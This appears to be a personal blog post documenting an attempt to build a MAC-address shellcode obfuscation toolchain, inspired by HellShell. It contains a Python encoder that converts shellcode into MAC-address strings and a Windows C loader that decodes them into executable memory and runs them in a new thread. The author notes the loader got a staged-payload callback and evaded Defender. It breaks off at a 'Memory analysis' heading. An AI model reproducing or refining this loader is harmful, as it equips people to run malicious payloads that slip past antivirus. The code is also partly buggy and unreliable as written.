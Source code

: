 # Overview
So I found this:  https://github.com/NUL0x4C/HellShell which is an decoder for MACaddr -> shellcode but it just seems to be a POC to convert the MACShell. So to build this out I need two things. Build out the encoder for macaddr (I'll add ipv4 and ipv6 after the macaddr one works.) Then a program to decrypt and inject the shell code.

# Encoder
Going to use python cause opening files in C seems to hard. Going to dump the code then explain it.
```python
def encode_mac(file_name,outfile="./mac_addr_shellcode.txt") -> list:
    #read from file and do some magic.
    raw_bytes = ''
    with open(file_name,'r') as file:
        for line in file:
            if (len(line.strip()[1:-1])!=56):
                raw_bytes += line.strip()[1:-2]
                raw_bytes +='\\x90'*round((16-(len(line.strip()[1:2])%16))/8)
            else:
                raw_bytes += line.strip()[1:-1]
    
    mac_arr = [raw_bytes[i*24:i*24+24].replace("\\x","-")[1:] for i in range(len(raw_bytes)//24)]

    #write to file no magic :(
    with open(outfile,'w') as out:
        counter = 0
        for i in mac_arr:
            counter+=1
            if counter==4:
                out.write(i+'",\n')
                counter =0
            elif counter==1:
                out.write('"'+i+'", "')
            else:
                out.write(i+'", "')
            
if __name__ == "__main__":
    encode_mac('./code.c')
```

So for the macaddrs they are basically 6 bytes. (each byte being of length for `\xFF`). One thing to account for is padding. 
```python
raw_bytes +='\\x90'*round((16-(len(line.strip()[1:2])%16))/8)
```

All this is doing is checking how many more bytes are need to fill the final mac addr. Then padding with `\x90` which is a NOP byte, meaning it does nothing.

# Building the Injector
So asking chatgpt to do it (and a bit of clean up by me) gives this:
```c
#include <Windows.h>
#include <stdio.h>
#include <Ip2string.h>
#pragma comment(lib, "Ntdll.lib")

#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif

const char* MACShell[] = {
	#macencoded payload
};
#define ElementsNumber 64
#define SizeOfShellcode 384

BOOL DecodeMACFuscation(const char* MAC[], PVOID LpBaseAddress) {
	PCSTR Terminator = NULL;
	PVOID LpBaseAddress2 = NULL;
	NTSTATUS STATUS;
	int i = 0;
	for (int j = 0; j < ElementsNumber; j++) {
		LpBaseAddress2 = PVOID((ULONG_PTR)LpBaseAddress + i);
		STATUS = RtlEthernetStringToAddressA((PCSTR)MAC[j], &Terminator, (DL_EUI48*)LpBaseAddress2);
		if (!NT_SUCCESS(STATUS)) {
			printf("[!] RtlEthernetStringToAddressA failed for %s result %x", MAC[j], STATUS);
			return FALSE;
		}
		else {
			i = i + 6;
		}
	}
	return TRUE;
}


DWORD PID, TID = NULL;
LPVOID rBuffer = NULL;
HANDLE hProcess, hThread = NULL;

const char* k = "[+]";
const char* i = "[*]";
const char* e = "[-]";

int main() {
	PVOID LpBaseAddress = NULL;
	printf("[i] SizeOf MacShell : %d \n", sizeof(MACShell));

	LpBaseAddress = VirtualAllocEx(GetCurrentProcess(), NULL, sizeof(MACShell), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (!LpBaseAddress) {
		printf("[!] VirtualAllocEx Failed With Error: %d \n", GetLastError());
		return -1;
	}
	printf("[+] LpBaseAddress: 0x%0-16p \n", (void*)LpBaseAddress);


	if (!DecodeMACFuscation(MACShell, LpBaseAddress)) {
		return -1;
	}

	hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)LpBaseAddress, NULL, NULL, &TID);
	if (hThread == NULL) {
		printf("%s failed to get a handle to the thread, error: %ld", e, GetLastError());
		CloseHandle(hProcess);
		return EXIT_FAILURE;
	}

	printf("%s got a handle to the thread (%ld)\n--0x%p\n", k, TID, hThread);

	printf("%s waiting for thread to finish\n", i);
	WaitForSingleObject(hThread, INFINITE);
	printf("%s thread finished executing\n", k);

	CloseHandle(hThread);
	CloseHandle(hProcess);

	return EXIT_SUCCESS;

}
```

which doesn't work.

## Trying to fix c code
I get a call back when using a staged payload but other then that I get nothing. At least the binary doesn't get flagged by defender. :)

A good start to debug this is to check if the shellcode is decoded correctly in the thread. 

How? yea I have no idea.

## Memory analysis
